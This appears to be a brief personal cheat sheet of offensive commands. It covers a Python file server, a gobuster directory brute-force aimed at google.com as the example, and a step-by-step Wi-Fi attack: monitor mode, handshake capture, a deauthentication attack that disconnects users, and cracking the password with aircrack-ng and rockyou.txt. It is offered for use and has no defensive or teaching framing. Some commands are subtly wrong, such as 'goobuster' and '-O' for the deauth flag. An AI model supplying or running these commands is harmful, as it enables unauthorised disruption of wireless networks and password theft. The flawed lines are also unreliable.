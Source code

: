 # BRUTEFORCE

# PYTHON SERVER
python3 : python3 -m http.server {port} eg: python3 -m http.server 80
python2 : python -m SimpleHTTPServer {port} eg : python -m SimpleHTTPServer 80

# GOBUSTER SCAN SUBDOMAIN
goobuster dir -u {url} -w {wordlist path}
eg :gobuster dir -u google.com -w common.txt

# WIFI HACKING

start monitor mode
-------------------
fmt : airmon-ng start [interface]
eg  : airmon-ng start wlan0

monitor
-------
fmt : airodump-ng [interface]
eg  : airodump-ng wlan0

capture packet
---------------
fmt : airodump-ng -d [bssid of router] -w [file name to be saved] -c [channel] [interface]
eg  : airodump-ng -d 00:AA:11:BB:22:CC -w myWifi -c 11 wlan0

deauthentication attack
-----------------------
fmt : aireplay-ng -O [number of deauthentication packets] -a [bssid of router] -c [bssid of device] [interface]
eg  : aireplay-ng -O 10 -a 00:AA:11:BB:22:CC -c AA:BB:CC:DD:EE:FF wlan0

rockyou.txt wordlist location
------------------------------
/usr/share/wordlists/rockyou.txt

crack password using wordlist
------------------------------

aircrack-ng -w [wordlist location] [captured file ".cap"]
